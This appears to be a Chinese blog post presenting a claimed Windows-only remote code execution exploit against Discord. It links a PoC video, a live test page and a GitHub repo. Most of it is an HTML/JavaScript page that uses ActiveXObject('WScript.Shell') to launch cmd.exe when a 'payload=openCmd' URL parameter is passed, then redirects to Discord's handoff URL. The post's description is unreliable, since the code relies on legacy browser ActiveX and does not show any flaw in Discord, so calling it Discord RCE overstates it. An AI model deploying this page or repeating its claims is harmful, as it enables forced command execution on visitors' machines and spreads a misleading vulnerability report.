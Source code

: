 ```yaml
---
date: 2025-08-06T00:28:59+08:00
title: Discord远程代码执行漏洞验证及技术分析
tags: [漏洞利用,远程代码执行,Discord,网络安全]
authors: qife
description: 本文详细分析了Discord客户端存在的远程代码执行漏洞，包含PoC验证视频、仅限Windows平台的自动化攻击代码实现，以及利用ActiveXObject强制打开cmd的完整技术细节。
---
```


# Discord远程代码执行漏洞验证

## 漏洞概述
该漏洞仅影响Windows平台，即使目标应用程序未运行，攻击代码也能强制启动程序并执行恶意操作。

## 技术验证
1. **PoC验证视频**  
   [观看验证视频](https://www.youtube.com/watch?v=dEGhIpIvBA0)

2. **在线验证页面**  
   [Windows环境测试页面](https://SleepTheGod.github.io/discord_rce.html)

## 漏洞利用代码
完整代码已开源在GitHub仓库：  
[SleepTheGod/Discord-RCE](https://github.com/SleepTheGod/Discord-RCE)

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>重定向中...</title>
    <script>
        onload = function() {
            alert("确定要执行Discord弹窗操作吗？点击确定继续");
        };

        function getQueryParam(param) {
            const urlParams = new URLSearchParams(window.location.search);
            return urlParams.get(param);
        }

        function isValidPayload(payload) {
            // 有效载荷验证逻辑
            const regex = /^[a-zA-Z0-9_-]+$/;
            return regex.test(payload);
        }

        function openCmd() {
            try {
                var shell = new ActiveXObject("WScript.Shell");
                shell.run("cmd.exe");
            } catch (e) {
                alert("当前浏览器不支持此操作或已被安全策略阻止");
            }
        }

        window.onload = function() {
            const payload = getQueryParam('payload');
            let targetUrl = 'https://discord.com/handoff';
            
            if (payload && isValidPayload(payload)) {
                targetUrl += `?payload=${encodeURIComponent(payload)}`;
                if (payload === 'openCmd' && window.ActiveXObject) {
                    openCmd();
                }
            }

            setTimeout(function() {
                window.location.href = targetUrl;
            }, 3000);
        }
    </script>
</head>
<body>
    <p>如果没有自动跳转，请<a id="redirectLink" href="https://discord.com/handoff">点击此处</a>。</p>
    <script>
        const payload = getQueryParam('payload');
        let targetUrl = 'https://discord.com/handoff';
        
        if (payload && isValidPayload(payload)) {
            targetUrl += `?payload=${encodeURIComponent(payload)}`;
            if (payload === 'openCmd' && window.ActiveXObject) {
                openCmd();
            }
        }

        document.getElementById('redirectLink').href = targetUrl;
    </script>
</body>
</html>
```

## 技术要点
1. 利用ActiveXObject实现Windows命令行调用
2. 通过URL参数注入有效载荷
3. 包含严格的有效载荷验证机制
4. 实现3秒延迟自动跳转功能

## 影响范围
仅支持Windows平台，依赖ActiveX组件特性实现命令执行。